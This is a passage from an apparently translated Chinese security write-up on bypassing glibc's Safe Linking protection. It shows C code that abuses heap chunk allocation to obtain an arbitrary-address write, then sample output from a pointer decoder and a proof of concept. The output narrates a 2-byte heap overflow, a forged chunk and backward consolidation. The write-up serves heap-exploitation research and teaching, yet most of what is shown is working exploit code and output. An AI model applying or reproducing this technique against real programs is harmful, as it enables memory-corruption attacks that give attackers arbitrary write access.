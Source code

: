 ```
// malloc to take that chunk out. should still be a copy of C
char *junk2 = malloc(0x98);

// Finally, malloc again to get our arbitrary address
uint64_t *winner = malloc(0x98);
```



## 步骤11 – VictoRII!

我们现在可以执行任意读/写，如果您需要在步骤7c中向下取整的地址，则需要在某个winner[offset]处写入。

```
// And write something arbitrary!
*winner = 0x112233445566;
```



## PoC示例

下面是源代码的输出示例。下面的PoC演示了P’解码，以及使用一个堆缓冲区溢出漏洞绕过Safe Linking。它以how2heap格式显示，并在此过程中打印出类似教程的描述性信息。该PoC还使用未对齐的任意地址，证明了在上面的步骤7c中提出的思路。因此，与上面的代码相比，它包含了一些更细节的东西。

### <a class="reference-link" name="Decoder%20Example"></a>Decoder Example

```
Enter hexadecimal P' value (without leading 0x): ba93dfd35753

The L &gt;&gt; 12 value for P' "ba93dfd35753" is ba9876543
```

### <a class="reference-link" name="Bypass%20Example"></a>Bypass Example

```
Safe Linking bypass using only a 2-byte heap buffer overflow

Arbitrary variable address is 0x7f851d406018 and its value is 0x11111111
Allocating 7 items to fill the tcache when they are eventually freed...
Allocating 4 contiguous allocations (chunks A, B, C, D) to use for buffer overflows and overlapping chunks...
Freeing the 7 items so tcache is full...
Freeing B (0x7f851d6affc0) into unsorted bin, since tcache is full.

Now simulating a buffer overflow vulnerability
We will overflow from C (malloc(0x98)) into D (malloc(0xb8))
We are only overflowing 2 bytes, writing a custom size into D (shorter than orig size).
We are also overwriting the prev_size field to 0x140 so it will attempt to consolidate B, C, and D.

Since chunkD is a usable buffer that we still have a pointer to, we create a fake chunk inside it.
This is at the offset matching the custom size we just wrote.
The 0x21 we write here represents a fake next chunk's size field, and satisfies two conditions:
  - ends in 0x1 (setting PREV_IN_USE), and
  - when added to the custom size we overwrote, actually lands on the legit next chunk after chunkD

Now, we have to trigger a second buffer overflow. This will be used to bypass some security checks
performed when consolidating backwards. We must overwrite the original size of chunk B to match what
chunk D is saying it is.

Freeing chunk D (0x7f851d6b0100), causing it to consolidate everything from B, over C, and including up to
the fake chunk boundary inside D.
```